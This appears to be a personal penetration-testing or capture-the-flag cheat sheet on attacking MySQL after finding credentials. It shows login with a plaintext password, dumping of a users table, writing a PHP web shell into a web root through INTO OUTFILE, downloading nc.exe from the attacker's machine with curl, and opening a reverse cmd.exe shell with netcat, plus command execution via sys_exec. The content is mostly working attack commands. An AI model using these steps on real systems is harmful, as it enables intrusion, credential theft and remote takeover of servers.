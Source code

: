 found db/sql creds:
```
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla
```
- `P4ntherg0t1n5r3c0n##` is password goes between `-p''`
- `joomla` is name of database
default root sql creds:
```
mysql -h 10.10.13.141 -u root -p
```
- will prompt for password (press enter, default is blank)
```
show databases;
```
- look for one that isn't information_schema, mysql, performance_schema, phpmyadmin, or test
```
use news;
```
- select database from output of last query
```
show tables;
```
- looking for users or something else juicy
```
select * from users;
```
- show all users in table

if sql creds are for root user, check file write privilege:
```
select "<?php system($_GET['cmd']); ?>" INTO OUTFILE 'C:/xampp/htdocs/dev/shell.php';
```
- create php shell on hosted website
- go to url http://10.10.247.22/dev/shell.php?cmd=whoami
	- if you see nt authority\system, you have a root webshell
		- can transfer nc.exe from another low-privilege shell by setting up python server `python3 -m http.server 80` on kali machine and from low priv shell run `curl http://10.8.0.136/nc64.exe -o C:/Windows/Temp/nc.exe`
		- then start listener of kali machine and run `C:/Windows/Temp/nc.exe 10.8.0.136 2222 -e cmd.exe`

```
SELECT sys_exec('whoami');
```
- only works if lib_mysqludf_sys is installed
	- otherwise, need to escape